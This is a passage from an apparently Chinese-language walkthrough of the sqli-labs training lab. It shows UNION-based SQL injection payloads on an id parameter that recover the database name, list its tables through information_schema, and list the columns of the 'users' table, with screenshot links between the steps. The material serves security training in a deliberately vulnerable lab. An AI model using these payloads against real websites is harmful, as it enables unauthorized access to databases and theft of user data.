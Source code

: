 ```sql
?id=-1')union select 1,database(),3--+
```

![image-20201106195226486](sqli-labs1-20/image-20201106195226486-1604667081398.png)

可以得到数据库名字security



**爆表**

```sql
?id=-1')union select 1,group_concat(table_name) ,3 from information_schema.tables where table_schema=security--+
```

![image-20201106195450005](sqli-labs1-20/image-20201106195450005-1604667081398.png)



**爆列**

```sql
?id=-1') union select 1,group_concat(column_name) ,3 from information_schema.columns where table_name='users'--+
```

![image-20201106195750781](sqli-labs1-20/image-20201106195750781-1604667081399.png)

